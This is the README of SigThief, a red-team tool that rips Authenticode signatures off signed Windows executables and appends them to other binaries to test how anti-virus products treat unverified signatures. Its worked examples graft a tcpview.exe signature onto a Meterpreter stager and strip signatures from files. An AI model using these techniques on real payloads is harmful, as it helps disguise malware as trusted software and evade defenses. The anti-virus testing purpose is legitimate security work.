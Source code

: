 # SigThief

Donate BTC: 16GfwSnSA7s5BtBfsPBdU59H4F6veq5uqk

Donate ETH: 0x7cCeC48F9F1470d663d4862784a03bee2d91834A

---
Stealing Signatures and Making One Invalid Signature at a Time (Unless you read this:
https://specterops.io/assets/resources/SpecterOps_Subverting_Trust_in_Windows.pdf)

https://twitter.com/subTee/status/912769644473098240
![alt text](https://i.imgur.com/T05kwwn.png "https://twitter.com/subTee/status/912769644473098240")

## For security professionals only...

## What is this?

I've noticed during testing against Anti-Virus over the years that each is different and each prioritize PE signatures differently, whether the signature is valid or not. There are some Anti-Virus vendors that give priority to certain certificate authorities without checking that the signature is actually valid, and there are those that just check to see that the certTable is populated with some value. It's a mess.

So I'm releasing this tool to let you quickly do your testing and feel free to report it to vendors or not.

In short it will rip a signature off a signed PE file and append it to another one, fixing up the certificate table to sign the file.

Of course it's **not a valid signature** and that's the point!

I look forward to hearing about your results!


## How to use

### Usage
```
Usage: sigthief.py [options]

Options:
  -h, --help            show this help message and exit
  -i FILE, --file=FILE  input file
  -r, --rip             rip signature off inputfile
  -a, --add             add signautre to targetfile
  -o OUTPUTFILE, --output=OUTPUTFILE
                        output file
  -s SIGFILE, --sig=SIGFILE
                        binary signature from disk
  -t TARGETFILE, --target=TARGETFILE
                        file to append signature too
  -c, --checksig        file to check if signed; does not verify signature
  -T, --truncate        truncate signature (i.e. remove sig)
```

### Take a Signature from a binary and add it to another binary
```
$ ./sigthief.py -i tcpview.exe -t x86_meterpreter_stager.exe -o /tmp/msftesting_tcpview.exe
Output file: /tmp/msftesting_tcpview.exe
Signature appended.
FIN.
```

### Save Signature to disk for use later
```
$ ./sigthief.py -i tcpview.exe -r                                                        
Ripping signature to file!
Output file: tcpview.exe_sig
Signature ripped.
FIN.

```

### Use the ripped signature
```
$ ./sigthief.py -s tcpview.exe_sig -t x86_meterpreter_stager.exe                               
Output file: x86_meterpreter_stager.exe_signed
Signature appended.
FIN.

```

### Truncate (remove) signature
This has really interesting results actually, can help you find AVs that value Signatures over functionality of code. Unsign putty.exe ;)

```
$ ./sigthief.py -i tcpview.exe -T    
Inputfile is signed!
Output file: tcpview.exe_nosig
Overwriting certificate table pointer and truncating binary
Signature removed.
FIN.
```

### Check if there is a signature (does not check validity)
```
$ ./sigthief.py -i tcpview.exe -c
Inputfile is signed!
```
